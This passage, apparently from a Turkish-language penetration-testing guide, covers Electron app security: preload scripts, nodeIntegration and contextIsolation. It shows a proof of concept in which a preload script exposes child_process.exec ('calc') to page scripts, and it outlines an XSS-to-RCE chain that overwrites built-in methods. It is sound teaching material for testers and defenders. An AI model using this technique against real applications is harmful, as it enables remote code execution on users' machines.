 Bu ayarda belirtilen script, **renderer'daki diğer scriptlerden önce yüklenir**, bu nedenle **Node API'lerine sınırsız erişime sahiptir**:
```javascript
new BrowserWindow{
webPreferences: {
nodeIntegration: false,
preload: _path2.default.join(__dirname, 'perload.js'),
}
});
```
Bu nedenle, script node-features'ı sayfalara aktarabilir:

{% code title="preload.js" %}
```javascript
typeof require === 'function';
window.runCalc = function(){
require('child_process').exec('calc')
};
```
{% endcode %}

{% code title="index.html" %}
```html
<body>
<script>
typeof require === 'undefined';
runCalc();
</script>
</body>
```
{% endcode %}

{% hint style="info" %}
**Eğer `contextIsolation` açıksa, bu çalışmayacak**
{% endhint %}

## RCE: XSS + contextIsolation

_**contextIsolation**_, **web sayfası scriptleri ile JavaScript Electron'un iç kodu arasında ayrılmış bağlamlar** tanıtır, böylece her kodun JavaScript yürütmesi birbirini etkilemez. Bu, RCE olasılığını ortadan kaldırmak için gerekli bir özelliktir.

Eğer bağlamlar izole edilmezse, bir saldırgan:

1. **renderer'da keyfi JavaScript çalıştırabilir** (XSS veya harici sitelere yönlendirme)
2. Preload veya Electron iç kodunda kullanılan **yerleşik yöntemi** kendi fonksiyonu ile **üstüne yazabilir**
3. **Üstüne yazılmış fonksiyonun** kullanılmasını **tetikleyebilir**
4. RCE?

Yerleşik yöntemlerin üstüne yazılabileceği 2 yer vardır: Preload kodunda veya Electron iç kodunda:

{% content-ref url="electron-contextisolation-rce-via-preload-code.md" %}
[electron-contextisolation-rce-via-preload-code.md](electron-contextisolation-rce-via-preload-code.md)
{% endcontent-ref %}
